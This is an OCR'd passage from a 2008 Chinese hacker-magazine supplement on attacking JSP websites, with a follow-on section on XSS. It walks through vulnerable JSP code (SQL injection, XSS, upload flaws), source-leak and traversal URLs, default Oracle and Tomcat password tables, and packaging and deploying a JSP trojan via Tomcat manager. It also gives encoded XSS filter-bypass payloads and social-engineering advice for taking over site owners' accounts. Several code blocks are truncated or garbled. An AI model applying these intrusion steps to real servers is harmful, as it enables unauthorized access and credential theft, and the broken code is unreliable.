<hr>
<%
response.setHeader(\"refresh\", \"5\");
%>
<h2><%=new Date()%></h2>
</body>
</html>
<%
```

[PAGE 48]

```
out.print("by 落叶纷飞");
%>
```

访问 nohack3.jsp，返回页面如图 29 所示。


我们来了解一下这段代码的含义，代码的前三行是用来防止中文乱码的，因为 Tomcat 默认不支持中文，这里我们就不必细讲。代码里我使用了 response 对象中的 setHeader 方法设置了 nohack3.jsp 文件每 5 秒刷新一次，String value 的单位为秒。

Request 对象是学习 JSP 脚本漏洞中最重要的知识点，它封装了用户提交的信息，通过它才能了解到客户的需求，然后做出响应。它是 HttpServletRequest 类的事例，使用该对象可以获取用户提交的信息。

Request 对象的常用方法如下：

+   - 1、getAttribute()
 返回指定属性的属性值。调用方法: getAttribute(String name)
- 2、getAttributeNames()
 返回所有可用属性名的枚举
- 3、getCharacterEncoding()
 返回字符编码方式
- 4、getContentLength()
 返回请求体的长度（以字节数）
- 5、getContentType()
 得到请求体的 MIME 类型
- 6、getInputStream()
 得到请求体中一行的二进制流
- 7、getParameter()
 返回 name 指定参数的参数值。调用方法: getParameter(String name)
- 8、getParameterNames()
 返回可用参数名的枚举
- 9、getParameterValues()
 返回包含参数 name 的所有值的数组。调用方法: getParameterValues(String name)
- 10、getProtocol()
 返回请求用的协议类型及版本号
- 11、getScheme()
 返回请求用的计划名，如 http、https 及 ftp 等
- 12、getServerName()
 返回接受请求的服务器主机名
- 13、getServerPort()
 返回服务器接受此请求所用的端口号

# 非安全·黑客手册2008 第一增刊

## 14、BufferedReader getReader()
返回解码过的请求体

## 15、getRemoteAddr()
返回发送此请求的客户端IP地址

## 16、getRemoteHost()
返回发送此请求的客户端主机名

## 17、setAttribute()
设置属性的属性值。调用方法: setAttribute(String key,Object obj)

## 18、getRealPath()
返回一个虚拟路径的真实路径。调用方法: getRealPath(String path)

下面我用一个实例让大家了解request对象，把下面代码保存为nohack4.jsp:

```
<%@page contentType=
```

然后再把下面的代码保存为nohack5.jsp，并存放在与nohack4.jsp相同的目录下:

```
<%@page contentTpe=
```

我们首先浏览nohack4.jsp，页面如图30所示。我们在其中输入一些字符，如“nohack”，点击“提交”，将会返回如图31所示的页面。


现在大家了解到JSP的工作方式了吧？好的，接下来我们就开始学习JSP的漏洞挖掘与攻击！

## 大型站点最爱--JSP 脚本攻防

### 四、JSP 漏洞综述

## 1、上传漏洞

关于 JSP 脚本的漏洞，我可以说基本上只有四种：注入、上传、跨站和逻辑型漏洞。读者朋友们一定是很沮丧吧？的确，JSP 语言编写的程序基本上就只有这四种漏洞，但是对于JSP 网站的攻击方式却不止这四个！什么意思呢？这里先卖个关子，下面我们先来了解JSP 中的一些脚本漏洞。

上传漏洞存在于所有脚本语言中，它的实质就是攻击者发现了一个上传点，然后利用一些技术手段来绕过上传点的限制，从而上传一个包含恶意代码的文件（即Webshell）。

下面我们来分析一段存在上传漏洞的代码，漏洞来自一款叫“能飞JSP + MySQL 网络办公OA系统”的JSP系统中，下面是其upload.jsp文件的一段代码：

```
...省（省略...）<body text="#000000" leftmargin="0" topmargin="0" bgcolor="#ffffff" class="Ut"> <table width="100%" border="0" cellspacing="0" cellpadding="0" bordercolor="#ffffff"> <tr> <form name="form9" method="post" action="uploading.jsp" enctype="multipart/form-data" onSubmit="return check1();"> <td valign="middle"> <input type="file" name="text1" size="30" class="buttonlinear"> <input type="submit" name="submit" value=" 上传 " class="pushbutton"></td><td align=right>允许上传[ 图片 txt word excel rar zip ]文件</td> </form> </tr> </table> </body> </html> <script language=javascript> <!-- function check1(){ ff=document.form9; if (ff.text1.value==
```

## 2、跨站漏洞

跨站漏洞的实质是当一个网站的某些变量没有过滤好就添加进了数据库，而这些变量在输出数据库时同样也没有做任何处理。攻击者会利用这个漏洞往数据库中插入一段恶意代码，使得网页浏览者在不知情的情况下运行攻击者的恶意代码。

跨站漏洞被很多人认为是鸡肋漏洞，但是事实并非如此。跨站漏洞的利用不仅仅在于弹框框、挂马、盗COOKIES和页面自动提交，各位读者可以到国外的milw0rm和h4ckyou网站看看，你会对跨站漏洞有一个全新的认识。

接下来我们要分析一段存在跨站漏洞的代码，漏洞出在一款名叫“JSP 简单留言本”的程序，来看看其漏洞文件ly_in.jsp的部分代码：

```
...省略... Connection con = wu.getConn(); Statement stmt = con.createStatement(); String content = request.getParameter("content") ; // 取 content 的值赋值到变量 content 中 String qq = request.getParameter("qq") ; // 取 qq 的值赋值到变量 qq 中 String email = request.getParameter("email") ; // 取 email 的值赋值到变量 email 中. 下同 String url = request.getParameter("url"); String xm = request.getParameter("yhm"); String msg = "您在留言成功。" ; String sql = 
```

### 3. 注入漏洞

小知识 注入漏洞的实质就是站点的某个文件对某些变量没有进行充分的过滤就让其进入数据库查询，攻击者可以构造一段恶意SQL语句对网站进行刺探攻击。

注入攻击应该是大家最熟悉的东西了，它所构造的 SQL 语句不是由脚本语言来确定的，而是由该语言所搭配的数据库来确定。JSP 语言支持多种数据库类型，比如 ACCESS、MSSQL、MYSQL、Oracle 等，几乎所有数据库都能与它配合，但最为常见的就是 JSP + MYSQL 和 JSP+Oracle 的组合了。

下面我们来分析一款名曰 “Eron-JSP 留言本” 程序的注人漏洞，先看看其 check.jsp 文件的部分漏洞代码：

```
...省略...\nString name,pwd;\nname=request.getParameter("adminnname"); // 获取 adminnname 的值并赋值到 name 变量\npwd=request.getParameter("adminpwd"); // 获取 adminpwd 的值并赋值到 pwd 变量\nStatement stmt=conn.createStatement();\nResultSet rs=stmt.executeQuery("select * from admin where admin='"+name+'" and adminpwd='"+pwd+'"); // 变量\nNAME 和 PWD 没有做任何过滤就进入数据库查询\nif(rs.next()){\nsession.putValue("name",name);\nsession.putValue("pwd",pwd);\nrs.close();\nstmt.close();\nresponse.sendRedirect("index.jsp");\n}else{\nout.print(<center>密码或用户名错误<br><a href=javascript:history.go(-1)>返回</a></center>);\n}\n...省略...
```

# 非安全·黑客手册2008第一增刊

### 4. 逻辑型漏洞

逻辑型漏洞的实质性很难说清，它涉及得非常广泛，有的朋友说“'or'='or'”是逻辑漏洞，其实这是错误的理解。逻辑漏洞可以是“逻辑注入漏洞”、“逻辑跨站漏洞”、“逻辑上传漏洞”、“下载漏洞”和“读任意文件源码”漏洞等等，任何语言编写的程序都有可能出现逻辑漏洞。

下面我们分析一段存在逻辑漏洞的代码。代码源于“溢洋论坛”，漏洞存在于modifyuser_manager.jsp文件，以下是它的漏洞代码：

```
...省略...
Connection con=yy.getConn();
Statement stmt=con.createStatement(ResultSet.TYPE_SCROLL_INSENSITIVE,ResultSet.CONCUR_READ_ONLY);
ResultSet rs=null;
Modify_Id=request.getParameter("modifyid"); // 取 modifyid 的值并赋值到变量 modifyid
sql="select * from 用户表 where 用户 id="+Modify_Id; // 执行查询
rs=stmt.executeQuery(sql);
rs.last();
if (rs.getRow()>0)
{
    User_Name=rs.getString(" 用户名 ");
    User_Password=rs.getString(" 用户密码 ");
    User_Sex=rs.getString(" 用户性别 ");
    User_Email=rs.getString(" 用户邮箱 ");
    User_Address=rs.getString(" 居住地址 ");
    User_Mobile=rs.getString(" 手机号码 ");
    User_Oicq=rs.getString("Oicq");
    User_Birthay=rs.getString(" 出生日期 ");
    User_Sign=rs.getString(" 签名 ");
}
...省略，下面是表单内容...
```

从以上代码可以看出，变量 m o d i f y i d 并没有做任何过滤就进入数据库了，这是一个注入漏洞，但同时也是一个逻辑漏洞。因为这是修改用户资料的页面，如果我们提交的地址为：
"http://www.51dz.net/bbs/modifyuser_manager.jsp?modifyid=51"，就能修改ID为51的用户资料了（管理员ID默认为51）。

### 5. 简单分析“彩森视频网络电台”

这套系统是前不久一个朋友叫我分析的，它采用罕见的JSP+Access搭配进行编写，首先我就看到了后台管理文件radiomanage/managerlogin.jsp的注射漏洞，其漏洞代码如下：

```
...省略...
String username=request.getParameter("username"); // 取username的值并赋值于变量username
String password=request.getParameter("password"); // 取password的值并赋值于变量password
...省略...
%>
<%@ include file="class.jsp"%
<%
ResultSet rs=stmt.executeQuery("select*from nj where username='"+username+"' and password='"+password+"'); //执行数据库查询
int exit=0;
while(rs.next()){
```

## 大型站点最爱——JSP 脚本攻防

```
String manager=rs.getString("管理员");
if(manager.equals("1")){
    exit=1;
    session.setAttribute("njmanager", username);
}
rs.close();
stmt.close();
conn.close();
...省略...
```

代码非常清晰，所以我们能轻易看出变量 username 和 password 并没有做任何过滤就带进数据库进行查询了，由此产生了注入漏洞。漏洞测试如图 3 9 、图 4 0 所示。


经过一会儿的查找，我又发现了该系统存在后台跨站漏洞，其漏洞出在 program.jsp 文件中，漏洞代码如下：

```
...省略...
} else if(action.equals("add")){
    ...省略...
< td align = "right" > 时间段 : </ td >
< td align = "left" height = "20" >
< input type = "text" name = "hours" size = "20" ></ td ></ tr >
< tr >< td align = "right" > 节目 : </ td >
< td align = "left" height = "20" >
< input type = "text" name = "info" size = "20" ></ td ></ tr >
< tr >< td align = "right" > 主持人 : </ td >
< td align = "left" height = "20" >
```

# 非安全·黑客手册2008 第一增刊

```
input type="text" name="nj" size="20"></td></tr>
<tr><td align="center" colspan="2"><input type="hidden" name="action" value="addinfo"><input type="submit" value="添加" name="B1"></td></tr>
…省略…
else if(action.equals("addinfo")){
String hours=new String(request.getParameter("hours").getBytes("iso-8859-1\));
String program=new String(request.getParameter("info").getBytes("iso-8859-1\));
String nj=new String(request.getParameter("nj").getBytes("iso-8859-1\));
stmt.executeUpdate("insert into program(时间,节目名称,NJ) values ('+hours+', '+program+', '+nj+')");
r esponse.sendRedirect("program.jsp");
}
else{
sqls="select*from program order by id desc";
ResultSet rs=stmt.executeQuery(sqls);
…省略…
```

从以上代码可以看出，当action的值为 add 时，将会显示出新建节目的表单，而表单在接收变量 hours、program 和 nj 时并没有做任何过滤。输入页没有做过滤，那么输出页呢？我们来看看 programlist.jsp 文件的部分代码：

```
…省略…
String sqls="select*from program order by id asc";
ResultSet rs=stmt.executeQuery(sqls);
while(rs.next()){
%><program njname=<%=rs.getString(“NJ”) %> program=<%=rs.getString(“节目名称”) %> times=<%=rs.getString(“时间”) %>/>
<%
rs.close();
stmt.close();
conn.close();
…省略…
```

呵咻，同样是没有做过滤就输出了数据，跨站漏洞就这样产生了，测试的过程如图 4 1 、4 2 所示。


如果在这里挂个马什么的，那可是很可怕的事情哦！好了，“彩森视频网络电台” 的漏洞就分析到这里，至此，JSP 的脚本漏洞也介绍完毕了。至于线程安全和 String 对象安全之类的问题，我个人认为并不是 JSP 的脚本漏洞，而且利用的空间也很狭窄，所以这里并不讨论。
可能读者们会很不满意 JSP 的脚本漏洞如此之少，前面已经说过了，虽然 JSP 的脚本漏洞很少，但是攻击 JSP 网站的方法却非常多。接下来，我将会介绍 JSP 网站的一些攻击方法。

# 大型站点最爱--JSP 脚本攻防

### 五、入侵 JSP 网站的方法总结

服务器漏洞是安全问题的起源，攻击者对网站的攻击也大多是从查找对方的漏洞开始的。可是无论你在脚本方面怎么做安全过滤，只要你所使用的服务器程序存在漏洞，你整个网站的防线就毁于一旦了！所以只有了解自身的漏洞，网站管理人员才能采取相应的对策，阻止外来的攻击。下面介绍一下一些服务器（包括 Web 服务器和 JSP 服务器）的常见漏洞。

# 1 源代码泄漏漏洞

Tomcat、Resin 这类 JSP 容器都存在过源代码泄漏漏洞，在以下的 APACHE 版本中均存在源代码泄漏漏洞：

+   (1) Apache 1.3.12
+   (2) Apache 1.3.11 win32
+   (3) Apache 1.2.x

这几个版本的 Apache 虽然比较旧，但有些网站还是有可能存在此类漏洞的，漏洞的测试方法大致有如下几种：

+   (1) http://target/directory/jsp/file.jsp.
+   (2) http://target/directory/jsp/file.jsp%E2
+   (3) http://target/directory/jsp/file.jsp+
+   (4) http://target/directory/jsp/file.jsp%2B
+   (5) http://target/directory/jsp/file.JSP
+   (6) http://target/directory/jsp/file.jsp%
+   (7) http://target/directory/jsp/file.jsp%
+   (8) http://target/directory/jsp/file.jsp%
+   (9) http://target/directory/jsp/file.jsp%
+   (10) http://target/directory/jsp/file.jsp%

如图 43 所示，这个站点就是一个存在泄漏 JSP 源代码漏洞的网站。Lcx 大哥曾经写过一个暴 jsp 源码的网页，其界面如图 44 所示。各位读者在遇到 JSP 类型的网站时，不妨试试这个工具，可能会有意想不到的收获哦！


# 非安全·黑客手册2008第一增刊


### 2. 目录遍历漏洞

目前很多JSP网站都是使用一款名曰“Resin”的程序来架设网站，该软件可以说是同类软件中比较稳定的，但是Resin的一些版本也存在目录遍历漏洞。

假设存在该漏洞的网址URL为“http://www.nohack.cn:8080/”，如果攻击者想得到目标D盘下所有文件的浏览权限，只需在浏览器地址栏中输入“http://www.nohack.cn:8080/d:”即可返回目标网站D盘的所有文件与文件夹。

其实不单单是Resin存在遍历目录漏洞，如果Tomcat、JBOSS服务器软件等设置不当的话也有可能存在目录遍历漏洞，如图45所示，这是一个存在目录遍历漏洞的JSP网站。


### 3. 确定服务器架设软件

确定服务器搭建程序的方法并不是一个漏洞，只是一个小小的缺陷，我们可以尝试提交一个不存在的文件来确定服务器所使用的架设软件。如正常地址是“http://www.nohack.cn/index.jsp”，我们可以尝试提交“http://www.nohack.cn/indexxxxxx.jsp”这样的地址，并从返回的信息确定服务器类型，如图46、图47所示，分别是我测试的两个网站。


## 大型站点最爱——JSP 脚本攻防

### 4. 拒绝服务漏洞

在旧版本的Tomcat中，存在一个拒绝服务漏洞。漏洞的测试过程是：先在Tomcat的WEB/nohack目录下建立了一个Hello.jsp文件，内容为“<%out.print(“Hello”); %>”，代码的含义大家都应该明白的，就是输出一个“Hello”的字符串。

然后我们通过IE输入“http://127.0.0.1:8080/nohack////////hello.jsp”这样的地址，这时浏览器上会显示编译错误，错误码为500，这是个比较常见的错误。现在我们再访问“http://127.0.0.1:8080/nohack/hello.jsp”，页面就出错了，而且所报的错误和刚才的错误信息一样！

我们换台机器访问“http://127.0.0.1:8080/nohack/hello.jsp”，同样是返回500错误，这就是Tomcat旧版本中的一个拒绝服务漏洞！

### 5. JSP 黄金搭档Oracle的安全隐患

JSP+Oracle被人称为黄金搭档，90％的大型商务网络都是使用这种搭建方式。但是，这也使得Oracle暴出了很多漏洞和延伸出了很多攻击方法。国内对Oracle数据库的安全研究文献实在是太少了，下面我们也来探讨一下JSP的黄金搭档Oracle数据库的安全。

最常见的Oracle攻击方式就是使用默认密码对目标进行入侵，因为Oracle数据库是一个庞大的系统，它提供了能够创建一切的模式，并且绝大部分的系统自带用户登录都配备了预设的默认密码。想知道数据库管理员工作是不是够勤奋？这里有一个方法可以找到答案。下面是最常用的预设用户名和密码：

| 账号       | 密码               |
|------------|--------------------|
| appsys     | apps               |
| ctxsys     | change_on_install  |
| dbsnmp     | dbsnmp             |
| outln      | outln              |
| owa        | owa                |
| perfstat   | perfstat           |
| scott      | tiger              |
| system     | change_on_install  |
| system     | manager            |
| sys        | change_on_install  |
| sys        | manager            |

我们可以本地安装一个Oracle数据库系统，然后尝试用以上预设密码进行登录，如果登录成功的话再进一步的人侵。就算管理员把这些默认配对都改了，想猜出登录密码也不是一件困难的事，逐个试试“Oracle”、“Oracle4”、“Oracle8i”、“Oracle11g”等，看看碰巧是不是有一个能登录上去。除了默认密码攻击，我们还可以进行爆破攻击，目的是获得Oracle数据库的密码再进行进一步的渗透，其原理和实例可以参考《黑客手册》杂志的相关文章。

除了以上两种攻击方式，我们还可以利用iSqlPlus来对Oracle进行攻击。大家可能会问什么是“iSqlPlus”？

> iSqlPlus是Oracle9i提供的新功能，是以Web形式发布的。其client、middle、server可以位于同一台机器上，也可以位于不同的机器。iSqlPlus并不需要单独安装，你只需要知道中间层服务器的地址和端口，通过浏览器访问http服务器就可以以标准用户或者SYS之类的身份登录。

其一般设置的端口是：7778和4443，但不同的版本会有不同的端口。如在Oracle9i中，端口是7778，而在10g的版本里，默认端口是5560，要看具体情况而定。


# 非安全·黑客手册2008第一增刊

如图48所示，这就是一台Oracle 9i的iSqlPlus管理页。我们尝试用刚才所介绍的Oracle预设账号SYS进行登录，登录后会进入如图49所示的页面。


在这里我们可以执行SQL语句及脚本文件，也可以加载脚本来执行。Oracle默认的配置是每个账号有10次的登录限制，如果10次输入密码错误，用户就会被锁定，但SYS用户的权限为最高权限，就算被锁定也能够访问数据库。

我们现在来使用“select * from v$version;”命令查询当前的Oracle版本，如图50所示。

从返回的信息中我们可以很清楚的看到Oracle的版本为9i，对于进一步的权限提升，大家可以参考网上的文献，这里就不讨论了。Oracle里的sys帐户就等同于MSSQL的sa，所以提权还是比较方便的！

Oracle的攻击方法还是比较多的，除了以上所说的，还有就是大家最爱的SQL注入攻击了。关于Oracle的注入攻击非常灵活，注入语句的构造也比较困难。还是高手们为我们小菜着想，编写了专门针对Oracle数据库的注入工具，最具代表性的就是“小幽”大牛的“Oracle专用注入工具”了，其界面如图51所示。

还有就是最新版NBSI3.0。说到NBSI3.0，很多朋友都会有一个疑问，就是在用NBSI3.0注入Oracle数据库的时候所猜到的表非常少，这里我教大家解决这个问题的方法。

首先打开NBSI3.0，点击“程序设置”按钮，然后把Oracle项的“猜解all_tables”勾上，

# 大型站点最爱--JSP 脚本攻防

点击“确定”后问题就解决了！如图 5 2 所示。


# 非安全·黑客手册2008第一增刊

最后，要介绍的一款支持Oracle注入的工具就是号称最厉害的“pangolin穿山甲”注射工具，它支持几乎所有数据库的注入，其界面如图53所示。


以我的个人经验来说，我觉得NBSI3 . 0 对 Oracle 注入最为厉害，我曾经用 “Oracle 专用注射器” 注入Oracle 数据库时猜不到表段，但换用NBSI3 . 0 后却能猜出。对于pangolin，我目前还没有用它注射过Oracle的注入点，具体好不好用还是交给大家评定吧。好了，关于Oracle的攻击方法就介绍到此，接下来我将介绍Tomcat带来的安全隐患。

### 6. Tomcat 的安全隐患

Tomcat 无论在Windows或Linux下都是最高权限，所以Tomcat的安全问题也由此诞生。Apache-Tomcat提供了一个WEB admin管理功能，前面说过，这个功能叫 “Tomcat Server Administration”，是用于在线管理Tomcat服务的。由于Tomcat默认是最高权限，如果知道了Tomcat的密码，就可以控制整个服务器了。下面是我整理的Tomcat的常用默认账号和密码：

| 账号 | 密码 |
| --- | --- |
| Admin | (空) |
| Root | (空) |
| Admin | admin |
| Root | root |
| (空) | (空) |

经过我测试发现，90% 用Tomcat架设的JSP网站都安装了这个功能，并且没有更改默认密码，这就使得我们有机可乘。

Tomcat的WEB 管理功能有两个页面，分别是 “/admin” 和 “/manager /html”，我们首先来看看第一个管理页 “/admin” 的遍历目录功能。


# 大型站点最爱---JSP 脚本攻防

我们直接使用Tomcat默认安装的账号密码“admin/（空）”来登录，成功登录后的界面如图55所示。


进入后我们点击“Service (Catalina)”旁边的那一小颗点（注意，一定是那颗点！），再点击“Host (localhost)”（注意，这里不是点击它旁边的点，而是点击它！），就会返回如图56所示的页面。


之后我们在“HOST ACTIONS”旁的下拉框选择“Create New Context”，就会返回如图57所示的页面。

我们在“Document Base”中设置想浏览的目录，我设置的是“f:\web”，然后在“Path”中设置我们的模拟目录名称，我设置的是“/Tomcat–nohack”，如图58所示。

点击提交后，我们可以通过“http://127.0.0.1:8080/Tomcat–nohack”这个地址对“F : \web”下的文件进行了查看了，如图59所示。

对于*nix系统，大家可以自行测试。接下来我们看看另一个管理页“/manager/html”给网站带来的安全隐患。

打开“http://127.0.0.1:8080/manager/html”，会看到如图60所示的登录页面。输入默认账号密码后成功登录，登录后的界面如图61所示。

# 非安全·黑客手册2008第一增刊


# 图57


# 图58


# 图59

往下拉可以看到一个上传点，在这里我们不能直接上传jsp木马，必须要先把木马制作成war包后再上传。网上已经有现成的job.war木马文件提供下载，但是因为很多朋友不懂得制作war包，我就给大家讲一下war包的制作方法。

首先，我们在C盘建立一个test的文件夹，把JSP木马work.jsp放到这个目录中。再用

# 大型站点最爱 --JSP 脚本攻防


Software Foundation
http://www.apache.org/
Tomcat Web Application Manage
Message: | OK
Manager | List Applications | HTML Manager Help | Mana
Applications
Path | Display Name | Running | Sessions
/ | Welcome to Tomcat | true | Q
/admin | Tomcat Administration Application | true | 1
/asdasd | Tomcat Manager Application | true | Q
/host-manager | Tomcat.Manager.Application | true | Q
/manager | Tomcat Manager Application | true | Q
/nohack |  | true | Q
/nohack111 |  | true | Q
/tomcat-docs | Tomcat.Documentation | true | Q
/tomcat-yw |  | true | Q
deploy
Deploy directory or WAR file located on server
Context Path (optional):
XML Configuration file URL:
WAR or Directory URL:

cmd 进入这个目录，然后输入如下命令：“JDK 的安装路径 \bin\jar.exe cf work.war *”（“*” 表示该目录下的所有文件）。几秒钟之后，war 包就制作好了！如图 62 所示。

```
c:\test>C:\j2sdk1.4.2_04\bin\jar.exe cf work.war *
c:\test>.
```

然后，我们把这个 war 包直接进行上传，如图 63 所示。然后打开 “http://127.0.0.1:8080/work/work.jsp” 就能访问到我们的木马了，如图 64 所示。


由于 T o m c a t 所产生的所有安全问题都非常严重，所以有一些高手已经编写出专门针对Tomcat的攻击工具，其中最为突出的就是“Tomcat 自动攻击机”、“Tomcat 弱口令扫描软件”和“Tomcat 扫描器”这三款工具，我把这三款工具都收集进了光盘，各位读者有兴趣的话可以慢慢研究。

# 非安全·黑客手册2008第一增刊

| 服务器名 | 127.0.0.1 |
| 服务器端口 | 8080 |
| 操作系统 | Windows XP 5.1 x86 |
| 当前用户名 | SYSTEM |
| 当前用户目录 | C:\Documents and Settings\Administrator |
| 当前用户工作目录 | C:\Program Files\Apache Software Foundation\Tomcat 5.5 |

### 7. 谈JSP网站的服务器安全

J S P 以其稳定、快速和跨平台等良好性能使得它在大型商务网站中得到广泛使用，但很多使用J S P 架设的网站都只对J S P 脚本做安全防护，而忽略掉J S P 服务器本身的安全。假设一个大型商务网站所使用的J S P 脚本程序不存在什么漏洞，我们可以说这个网站是比较安全的，而这仅仅是这个网站安全，而服务器的安全性有80% 是很差的。为什么呢？前面已经说过了，J S P 无论在什么Windows 或*nix上，都是以最高权限存在的。

试想，一个大型的商务网络会仅仅只有一个网站吗？答案是肯定不会，而且你相信这个大型网络中，旗下所有网站都是这么的安全吗？如果我们对其支持J S P 的同服务器网站或分站进行入侵的话，只要得到了一个Webshell，这台服务器很可能就奔溃了。就算我们获得的只是这个商务网络分站的服务器，但如果使用嗅探攻击的话，不出一个月就能拿下主站。

尽管现在很多大型商务网络都对主站进行过阻止嗅探攻击的部署，我们很难拿下主站的服务器，但至少也能拿下主站周边的大部分服务器，再配合社会工程学的话，主站一样是有可能拿下的！至少我检测的十个J S P 网站中，就有九个能直接执行系统命令。

以上只是我的个人观点，可能有很多说得不对的地方，还请各位大侠给予指出。

### 六、后记

其实J S P 的安全问题并不只是这些，很多被入侵的J S P 网站，问题并不是出自其所使用的J S P 脚本程序，而是出自于其所使用的J S P 服务器软件。

在看过曾云好大哥的《精通脚本黑客》一书后，我认为这是一本目前国内研究脚本安全书籍中最为全面的一本，但是在J S P 的章节中，几乎只介绍了J S P 常见的脚本漏洞，并没有着重J S P 的整体安全和攻击方法，本文也算是对这个方面的一个补充吧！

本文借鉴了很多安全研究人士的文献，在这里我真心感谢他们的优秀文章，正是因为他们的引导，才使得我们后辈得以前进。最后感谢土豆大哥、33、孤独E 人、所有前SST的成员等，当然还有我老婆叶子= ）

### 七、参考文献

JSP 漏洞大观
http://www.juntuan.net/hkjc/ldyj/n/2005-04-26/3848.html

JSP 论坛安全之旅
http://www.tot.name/show/3/6/20051214102950.htm

入侵基于 JSP+Tomcat 的 Web 网站实录
http://www.cndw.com/tech/jsp/2006021613761.asp

入侵 Tomcat 服务器
http://www.05112.com/Article/200601/200.html

《对著名快递公司的一次艰难的 Oracle 注入》——《黑客手册》08 年 06 期

利用 Oracle 系统账户默认口令提升权限
http://www.hacker.cn/Get/dnjq/072608582379154.shtml

黑客入侵 Oracle 系统的八种方法
http://www.heibai.net/article/info/info.php?infoid=38393

通过 Orabrute 暴力破解 Oracle 密码
http://hi.baidu.com/itbus/blog/item/1ec9a51665285652f2de32cd.html

破解 Oracle 数据库的密码
http://www.bitscn.com/hack/password/200803/133651.html

Oracle LATERAL-SQL-INJECTION 个人见解
http://huaidan.org/archives/1957.html

Oracle web 环境注射技术
http://www.anqn.com/zhuru/article/all/2008-03-21/a0993948.shtml

再谈 Oracle! isqlplus 端口的妙用
https://forum.eviloctal.com/viewthread.php?tid=31158

A New Class of Attack in Oracle
https://forum.eviloctal.com/viewthread.php?tid=32679

入侵 Oracle 数据库的一些心得
http://www.05112.com/Article/200708/15468.html

# “跨”越新高地 -- 最新 XSS 黑技大曝光


# “跨”越新高地——最新XSS黑技大曝光

不知不觉，XSS 已经从配角的位置一下子就登上了主角的行列，还真有点不可思议，不过这也在意料之中。本章就带大家好好地了解下 XSS 吧！

### 一、认识XSS

XSS又叫CSS (Cross Site Script)，即“跨站脚本攻击”，它指的是恶意攻击者往 Web 页面里插入恶意 html 代码，当用户浏览该页时，嵌入 Web 里的 html 代码会被执行，从而达到恶意用户的特殊目的。XSS 属于被动式攻击，因为其被动且不好利用，所以许多人常忽略其危害性。

就个人而言，我把 XSS 攻击分成两类：一类是来自内部的攻击，主要指的是利用程序自身的漏洞构造跨站语句；另一类则是来自外部的攻击，主要指寻找非目标主机以外的有跨站漏洞的网页。比如要渗透一个站点，我们可以利用有跨站漏洞的主机构造一个有跨站漏洞的网页，然后构造跨站语句，通过结合其它技术，如社会工程学等，就能达到不可告人的目的了。

而来自内部的攻击又大概分成两类：一类是 Stored XSS，另一类是 XSS reflection，其中 Stored XSS 的危害是最大的。那么什么又是 Stored XSS 和 XSS reflection 呢？Stored XSS 直译为 “储存式 XSS”，是把 XSS 跨站攻击代码储存在服务端上，是一种持久性的 XSS；XSS reflection 直译为 “反射式 XSS”，是把 XSS 跨站攻击代码暂时的注入到该页面，是一种非持久性的 XSS。

我相信通过图片配合文字更能方便说明问题，下面分别截几组图片来展示下这两种 XSS 的区别。先来看看 Stored XSS，如图 1、图 2、图 3 所示。按照图 1 中的格式添加 XSS 跨站攻击代码，然后点击 “增加友情链接”，增加成功以后，代码就会在个人主页中执行了。


# 非安全·黑客手册 2008 第一增刊

以后只要有人来访问你的空间，就会看到如图 3 所示的弹窗。这个就是所谓的 Stored XSS （在“黑手”上发过利用这个 XSS 写的蠕虫），这样的 XSS 是最危险的，大家可千万不要轻视它。

接下来看看XSS reflection 的利用，像图4、图5、图6所示这样直接 GET 或是 POST 注入跨站代码的方法，基本上都属于XSS reflection。


# “跨”越新高地——最新XSS黑技大曝光

XSS reflection 还有好多分支，比如由字符集导致的浏览器跨站脚本攻击、URL 跳转攻击、框架跳转攻击，还有就是最近比较火的 JS 流注入攻击等，这些我将会在后面给大家介绍。

### 二、XSS的触发条件

了解 XSS 的触发条件就得先从 H T M L（超

# "跨" 越新高地 -- 最新XSS黑技大曝光

BODY { background: url(http://127.0.0.1/xss.gif) }

```
<style>
</style>
<body>
<html>
```

保存为HTML，在浏览器中打开后显示正常。然后转换background属性值为\连接的16进制字符串形式，代码如下所示，浏览器打开后同样显示正常。

```
<html>
<body>
<style>
BODY{background:\75\72\6c\28\68\74\74\70\3a\2f\31\37\2e\30\2e\30\2e\31\2f\78\73\73\2e\67\69\66\29 }
</style>
<body>
<html>
```

在文章第一部分我已经说过，XSS的触发条件包括访问文档的标签属性，因此我们不难构造出像这样的XSS语句，转码后代码如下：

```
< img S T Y L E = " b a c k g r o u n d - i m a g e : \75\72\6c\61\76\61\73\63\72\69\64\3a\61\6c\65\72\74('XSS') >
```

这里介绍一个不错的站点，可以帮助我们转码，地址是http://www.0x37.com/xss。要是网站程序员连&、#、\这样的字符都过滤了，那问题也就比较麻烦了，解决起来就不是很容易。如果真的遇到了，你可以采用fromCharCode方法，具体的利用方法请参考下这个站点http://ha.ckers.org/xss.Html。

至于字符的限制嘛，这个也没有具体的办法，尽量使代码最小化，还有就是假如1个页面有2处或多处可以写入跨站代码，但是这几个地方都有字符限制，这个时候就可以使用注释字符解决，比如<!-- 或--->，请看图1、图2中的使用。

### 四、举例

在文章的开篇部分我就已经介绍了XSS的分类，相信大家应该还记得，在这个环节里，我将为大家展示XSS攻击的具体方法。当然了，本节只是展示攻击方法，至于具体的如何编码躲过字符过滤，我这里就不详细阐述了，大家可以通过上一节了解部分绕过代码过滤的方法。

所谓站外XSS攻击，也就是利用目标外的主机对目标进行的XSS攻击。这样的攻击例子在网上有很多，我在这里就简单的说下站外攻击的基本流程。

假设这次要入侵的目标是站点A，我们通过社工知道站点A的站长很喜欢上站长网，正好我们手里有站长网的一个XSS，于是就可以构造一个伪装性很好的XSS代码来骗取站点A站长的用户和密码。只要得到了站点A站长的密码，估计后台就肯定有机会被拿下，那就等于成功了一大半。因为我们知道，大多数网民都用同一个密码，或者在这个密码的前后加姓名全拼、姓名缩写、生日日期等。

有人可能会说：你怎么能知道他的姓名或是生日呢？这个就不在本文的讨论范围之内了，你可以通过某些途径去查下他域名注册的详细资料，在那里基本上都有姓名、手机、详细地址等。我这里只是举了个很简单的例子来说明站外XSS攻击，只要思路活，其实方法多着呢！

# 非安全·黑客手册2008第一增刊

在这里我正好想起来 H TTP 消息头注入，这个大家都不陌生吧？直接在 H TTP 的消息头 User-Agent:里构造跨站脚本就可以了。还有就是 Referer XSS，这个比较适合攻击 BLOG 或是用统计的站点，因为一般的 BLOG 或是统计程序都有一个功能，就是查看来源，也就是说访客是通过哪些途径来访问该网站或 BLOG 的。在我看来，这两种方法也属于站外攻击，那就演示下 Referer XSS 的攻击流程好了。

# 1、Referer XSS

这里我只是给出方法，具体的测试过程还是大家自己去发掘吧。首先下载个能伪造 Referer 的软件，推荐使用 firefox 的 refcontrol 插件，如图 8 所示。


